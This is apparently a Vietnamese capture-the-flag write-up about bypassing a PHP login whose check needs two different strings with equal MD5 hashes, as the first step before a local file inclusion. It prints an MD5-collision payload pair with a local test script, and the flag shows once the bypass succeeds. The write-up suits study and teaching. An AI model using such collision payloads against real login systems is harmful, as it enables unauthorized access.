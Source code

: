 Chốt lại: Bypass login -> LFI -> get flag.

### Solution
Mình sẽ tiến hành sinh chuỗi payload:
```php
<?php
        $a = base64_encode(hex2bin('4dc968ff0ee35c209572d4777b721587d36fa7b21bdc56b74a3dc0783e7b9518afbfa200a8284bf36e8e4b55b35f427593d849676da0d1555d8360fb5f07fea2'));
        $b = base64_encode(hex2bin('4dc968ff0ee35c209572d4777b721587d36fa7b21bdc56b74a3dc0783e7b9518afbfa202a8284bf36e8e4b55b35f427593d849676da0d1d55d8360fb5f07fea2'));
        
        echo $a;
        echo $b;
?>
```
output:
```php
Tclo/w7jXCCVctR3e3IVh9Nvp7Ib3Fa3Sj3AeD57lRivv6IAqChL826OS1WzX0J1k9hJZ22g0VVdg2D7Xwf+og==
Tclo/w7jXCCVctR3e3IVh9Nvp7Ib3Fa3Sj3AeD57lRivv6ICqChL826OS1WzX0J1k9hJZ22g0dVdg2D7Xwf+og==
```

Kiểm tra trên local xem đã vượt qua được form đăng nhập chưa.
```php
<?php
        $username = base64_decode('Tclo/w7jXCCVctR3e3IVh9Nvp7Ib3Fa3Sj3AeD57lRivv6IAqChL826OS1WzX0J1k9hJZ22g0VVdg2D7Xwf+og==');
        $password = base64_decode('Tclo/w7jXCCVctR3e3IVh9Nvp7Ib3Fa3Sj3AeD57lRivv6ICqChL826OS1WzX0J1k9hJZ22g0dVdg2D7Xwf+og==');
		
		$flag = 'CHH{yamete}';
		
        if(($username == $password)){
            echo 'wrong';
        }
        else if((md5($username) === md5($password))){
            echo $flag;
        } else {
            echo 'wrong';
        }
?>
```
output:
> CHH{yamete}

Ô. vậy là đã bypass được rồi. Có vẻ như hai chuỗi trên là chính xác.
Mình sẽ gửi payload lên form đăng nhập.
Server trả về thông báo lỗi???? lạ vậy.
Mình không nghĩ sẽ có lỗi gì xảy ra ở đây. 

![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/e40df438-fc56-4fd0-861f-3ced70aac6bf)
Lỗi cho thấy: Không thể chỉnh sửa thông tin header và lỗi xảy ra tại dòng thứ 73.

Nhìn vào source code thì mình thấy dòng 73 là `$_SESSION['username'] = $username;` dùng để tạo session đăng nhập. 
Vậy là chứng tỏ ta đã bypass thành công. Dòng mã 73 đã được thực thi. 🥇
